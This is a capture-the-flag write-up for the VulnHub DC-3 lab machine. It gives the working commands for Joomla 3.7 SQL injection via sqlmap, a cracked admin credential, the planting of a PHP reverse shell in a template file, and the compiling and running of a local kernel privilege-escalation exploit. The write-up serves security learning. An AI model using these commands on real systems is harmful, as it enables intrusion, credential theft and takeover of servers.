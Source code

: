 ```yaml
---
layout: "post"
title: "DC 3 Walkthrough"
categories: [vulnhub, DC-Series]
tags: [dc-3 easy joomla CVE]
---
```

DC-3 was an easy machine. The website was hosted on `Joomla`. There was a `sqli exploit` that gives the admin password. By using an admin panel upload the shell. Priv sec using `CVE`.  

# Summery

- Portscan
- `Gobuster` to findout directories
- Search exploit
- Use `sqlmap` to get admin password
- Crack the password using `John`
- Login to admin panel and inject reverse shell
- Get reverse shell
- Exploit Kernel using CVE 
- Getting Root
- Flag

# Recon

## Portscan

```
Nmap scan report for 192.168.1.7
Host is up (0.00030s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home

```
## Joomla

When I browse the website, I don't find out anything interesting.
![mainpage](/assets/img/dc-3/mainpage.png)
So, I started the gobuster to find out directories.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.1.7 -x php,txt,html

/images (Status: 301)
/media (Status: 301)
/templates (Status: 301)
/modules (Status: 301)
/index.php (Status: 200)
/plugins (Status: 301)
/bin (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/README.txt (Status: 200)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/LICENSE.txt (Status: 200)
/layouts (Status: 301)
/administrator (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/cli (Status: 301)
/server-status (Status: 403)

```
# Sqli
The `README.txt` file revels the webserver is running Joomla and its version is 3.7.
![readme](/assets/img/dc-3/readme.png)
I search the exploit on searchsploit and get the exploit for Joomla. 
![searchsploit joomla](/assets/img/dc-3/searchsploit-joomla.png)

The exploit `php/webapps/42033.txt` tells that version is vulnerable to sqli.
So as per exploit I run sqlmap and get admin hash.

```bash
sqlmap -u "http://192.168.1.7/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,password --dump 
```

>admin:$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu

I use `John` to crack the password.
![john](/assets/img/dc-3/john.png)

>admin:snoopy

# Getting reverse shell.
Now I have username and password, I use those to log in to `Joomla`. By using admin panel I can edit the template files. So I paste the source code of php-reverse-shell in error.php of beez3 template and
get a reverse shell.
![shell](/assets/img/dc-3/shell.png)
![nc](/assets/img/dc-3/nc.png)

# Getting Root

I upload [linpeas](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh) on server and run it. 
![ubuntu](/assets/img/dc-3/ubuntu.png)
The exploit is available on `searchsploit` for *ubuntu 16.04*
![exploit](/assets/img/dc-3/searchsploit-exploit.png)

I download the [exploit](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip) from net and transfer to server. By executing the exploit I get root access.
```bash
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit/
./compile.sh
./doubleput
```
![1](/assets/img/dc-3/1.png)
![2](/assets/img/dc-3/2.png)

# The Flag
![root](/assets/img/dc-3/root.png)


 

